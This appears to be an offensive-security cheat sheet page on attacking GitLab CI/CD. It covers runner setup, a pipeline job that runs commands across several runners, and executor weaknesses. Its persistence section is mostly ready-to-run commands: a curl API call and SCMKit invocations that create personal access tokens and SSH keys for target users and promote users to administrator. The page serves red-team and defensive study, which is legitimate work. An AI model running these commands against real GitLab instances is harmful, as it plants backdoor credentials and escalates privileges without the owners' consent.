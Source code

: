 # CI/CD - Gitlab CI

GitLab CI (Continuous Integration) is a built-in feature of GitLab that automates the process of building, testing, and deploying your code every time you make a change. It's part of GitLab CI/CD, which stands for Continuous Integration / Continuous Deployment.

## Gitlab Runners

```ps1
sudo apt-get install gitlab-runner
sudo gitlab-runner register
```

| Prompt              | Example Input                                            |
| ------------------- | -------------------------------------------------------- |
| GitLab instance URL | `https://gitlab.com/`                                    |
| Registration token  | Found in your project under `Settings > CI/CD > Runners` |
| Executor            | `shell`, `docker`, etc.                                  |
| Description         | `my-remote-runner`                                       |
| Tags                | `remote`                                                 |

The `.gitlab-ci.yml` file is the configuration file that GitLab CI/CD uses to define your pipelines, jobs, and stages.

### Command Execution Jobs

Gitlab-CI "Command Execution" example: `.gitlab-ci.yml`

```yaml
stages:
    - test

test:
    stage: test
    script:
        - |
            whoami
    parallel:
        matrix:
            - RUNNER: VM1
            - RUNNER: VM2
            - RUNNER: VM3
    tags:
        - ${RUNNER}
```

### List GitLab Runners

List all GitLab runners available to the current user in GitLab.

```ps1
SCMKit.exe -s gitlab -m listrunner -c userName:password -u https://gitlab.something.local
SCMKit.exe -s gitlab -m listrunner -c apikey -u https://gitlab.something.local
```

## Gitlab Executors

* **Shell** executor: The jobs are run with the permissions of the GitLab Runner’s user and can steal code from other projects that are run on this server.
* **Docker** executor: Docker can be considered safe when running in non-privileged mode.
* **SSH** executor: SSH executors are susceptible to MITM attack (man-in-the-middle), because of missing `StrictHostKeyChecking` option.

## Gitlab CI/CD Variables

CI/CD Variables are a convenient way to store and use data in a CI/CD pipeline, but variables are less secure than secrets management providers.

## Persistence

* [xforcered/SCMKit](https://github.com/xforcered/SCMKit) - Source Code Management Attack Toolkit

### Personal Access Token

Create a PAT (Personal Access Token) as a persistence mechanism for the Gitlab instance.

* Manual

    ```ps1
    curl -k --request POST --header "PRIVATE-TOKEN: apiToken" --data "name=user-persistence-token" --data "expires_at=" --data "scopes[]=api" --data "scopes[]=read_repository" --data "scopes[]=write_repository" "https://gitlabHost/api/v4/users/UserIDNumber/personal_access_tokens"
    ```

* Using `SCMKit.exe`: Create/List/Delete an access token to be used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m createpat -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m createpat -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removepat -c userName:password -u https://gitlab.something.local -o patID
    SCMKit.exe -s gitlab -m listpat -c userName:password -u https://gitlab.something.local -o targetUser
    SCMKit.exe -s gitlab -m listpat -c apikey -u https://gitlab.something.local -o targetUser
    ```

* Get the assigned privileges to an access token being used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m privs -c apiKey -u https://gitlab.something.local
    ```

### SSH Keys

* Create/List an SSH key to be used in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m createsshkey -c userName:password -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m createsshkey -c apiToken -u https://gitlab.something.local -o "ssh public key"
    SCMKit.exe -s gitlab -m listsshkey -c userName:password -u https://github.something.local
    SCMKit.exe -s gitlab -m listsshkey -c apiToken -u https://github.something.local
    SCMKit.exe -s gitlab -m removesshkey -c userName:password -u https://gitlab.something.local -o sshKeyID
    SCMKit.exe -s gitlab -m removesshkey -c apiToken -u https://gitlab.something.local -o sshKeyID
    ```

### User Promotion

* Promote a normal user to an administrative role in a particular SCM system

    ```ps1
    SCMKit.exe -s gitlab -m addadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m addadmin -c apikey -u https://gitlab.something.local -o targetUserName
    SCMKit.exe -s gitlab -m removeadmin -c userName:password -u https://gitlab.something.local -o targetUserName
    ```

## Tools

- [praetorian-inc/glato](https://github.com/praetorian-inc/glato) - GitLab Attack TOolkit

## References

* [Security for self-managed runners - Gitlab](https://docs.gitlab.com/runner/security/)
